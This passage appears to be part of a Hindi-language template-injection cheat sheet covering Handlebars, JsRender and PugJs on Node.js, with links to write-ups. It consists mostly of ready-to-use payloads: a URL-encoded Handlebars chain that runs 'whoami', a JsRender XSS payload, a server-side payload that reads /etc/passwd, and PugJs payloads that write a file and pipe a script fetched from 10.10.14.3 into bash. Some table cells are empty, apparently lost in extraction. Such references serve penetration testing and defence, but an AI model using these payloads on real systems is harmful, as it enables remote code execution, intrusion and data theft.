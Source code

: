 ```java
%7B%7B%23with%20%22s%22%20as%20%7Cstring%7C%7D%7D%0D%0A%20%20%7B%7B%23with%20%22e%22%7D%7D%0D%0A%20%20%20%20%7B%7B%23with%20split%20as%20%7Cconslist%7C%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epush%20%28lookup%20string%2Esub%20%22constructor%22%29%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%23with%20string%2Esplit%20as%20%7Ccodelist%7C%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epush%20%22return%20require%28%27child%5Fprocess%27%29%2Eexec%28%27whoami%27%29%3B%22%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%23each%20conslist%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%23with%20%28string%2Esub%2Eapply%200%20codelist%29%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%2Feach%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%7B%7B%2Fwith%7D%7D%0D%0A%7B%7B%2Fwith%7D%7D
```
**अधिक जानकारी**

* [http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html](http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html)

### JsRender (NodeJS)

| **टेम्पलेट** | **विवरण**                             |
| ------------ | ------------------------------------- |
|              | आउटपुट का मूल्यांकन और रेंडर करना    |
|              | एचटीएमएल एन्कोडेड आउटपुट का मूल्यांकन और रेंडर करना |
|              | टिप्पणी                               |
| और          | कोड की अनुमति (डिफ़ॉल्ट रूप से अक्षम)  |

* \= 49

**क्लाइंट साइड**
```python
{{:%22test%22.toString.constructor.call({},%22alert(%27xss%27)%22)()}}
```
**सर्वर साइड**
```bash
{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /etc/passwd').toString()")()}}
```
**अधिक जानकारी**

* [https://appcheck-ng.com/template-injection-jsrender-jsviews/](https://appcheck-ng.com/template-injection-jsrender-jsviews/)

### PugJs (NodeJS)

* `#{7*7} = 49`
* `#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('touch /tmp/pwned.txt')}()}`
* `#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('curl 10.10.14.3:8001/s.sh | bash')}()}`
